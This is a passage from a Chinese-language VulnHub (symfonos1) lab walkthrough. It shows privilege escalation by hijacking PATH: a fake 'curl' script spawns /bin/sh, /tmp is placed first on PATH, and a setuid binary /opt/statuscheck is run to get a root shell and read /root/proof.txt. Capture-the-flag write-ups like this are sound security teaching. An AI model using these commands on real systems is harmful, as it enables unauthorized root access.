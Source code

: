 ![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/23.png)

看上去是使用 curl 访问本地网页, `curl -I http://localhost`

这里可以写一个自定义的 curl 文件,让其提权
```
cd /tmp
echo $'#!/bin/sh\n/bin/sh' > curl
chmod +x curl
export PATH=$(pwd):$PATH
/opt/statuscheck
whoami
cd /root
ls
cat proof.txt
```
